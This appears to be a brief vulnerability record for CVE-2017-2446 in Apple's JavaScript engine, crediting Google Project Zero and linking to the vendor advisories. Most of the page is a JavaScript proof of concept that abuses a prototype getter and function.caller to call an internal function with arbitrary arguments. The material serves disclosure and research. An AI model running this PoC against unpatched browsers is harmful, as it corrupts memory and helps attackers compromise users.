 # CVE-2017-2446

- Report: Jan 2017
- Fix: Mar 2017
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var q;
function g(){
    q = g.caller;
    return 7;
}

var a = [1, 2, 3];
a.length = 4;
Object.defineProperty(Array.prototype, "3", {get : g});
[4, 5, 6].concat(a);
q(0x77777777, 0x77777777, 0);
```

## Reference

- [Apple](https://support.apple.com/en-us/HT207617)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1032)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1036)
